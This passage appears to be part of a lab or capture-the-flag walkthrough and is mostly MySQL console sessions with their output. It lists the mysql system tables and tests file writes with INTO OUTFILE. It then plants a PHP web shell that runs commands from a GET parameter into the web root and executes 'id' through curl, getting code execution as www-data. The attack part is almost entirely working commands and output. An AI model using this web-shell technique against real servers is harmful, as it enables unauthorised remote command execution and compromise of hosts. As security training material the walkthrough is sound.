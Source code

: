 ```
+--------------------+
5 rows in set (0.002 sec)
```
```
MySQL [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```
```
MySQL [mysql]> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| ndb_binlog_index          |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| servers                   |
| slow_log                  |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| user📌                    |
+---------------------------+
24 rows in set (0.009 sec)
```
```
MySQL [(none)]> select 'Hello world!' into outfile '/tmp/test.txt' from mysql.user limit 1;
Query OK, 1 row affected (0.001 sec)
```
```
MySQL [(none)]> select '<?php $output=shell_exec($_GET["cmd"]); echo "<pre>".$output."</pre>" ?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1;📌
Query OK, 1 row affected (0.002 sec)
```

`curl http://192.249.241.3/shell.php?cmd=id`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
</pre>
```

---
---